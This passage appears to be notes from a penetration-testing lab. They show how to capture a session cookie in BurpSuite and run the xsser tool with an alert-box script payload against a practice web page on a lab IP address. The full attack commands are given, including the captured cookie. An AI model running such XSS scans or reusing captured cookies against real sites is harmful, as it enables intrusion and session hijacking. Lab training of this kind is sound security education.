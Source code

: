 - Activate `FoxyProxy` Plugin, start `BurpSuite`, refresh the webpage and copy the `Cookie` from the Proxy intercepted request
  - `PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0`

- Run the **`xsser`** tool by
  - replacing the `firstname` value string with `XSS`
  - feeding the Cookie
  - stop BurpSuite interceptor

```bash
xsser --url "http://192.56.179.3/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0"
```

![](assets/image-20230505004208373.png)

```bash
xsser --url "http://192.56.179.3/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0" --Fp "<script>alert(1)</script>"
```
